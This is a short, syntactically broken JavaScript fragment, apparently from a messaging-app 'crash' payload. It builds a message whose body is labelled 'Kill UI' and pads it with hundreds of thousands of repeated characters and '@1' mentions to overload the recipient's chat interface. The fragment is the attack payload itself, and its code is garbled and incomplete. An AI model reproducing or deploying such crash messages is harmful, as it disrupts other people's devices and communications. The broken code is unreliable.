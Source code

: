 },

hasMediaAttachment:true
},
body: { text: "𝗝𝘂𝘀𝘁𝗶𝗻𝗻𝘄𝗶 𝗞𝗶𝗹𝗹 𝗨𝗜🗡🎭" + "ꦾ".repeat(100000) + "@1".repeat(300000 
                 },
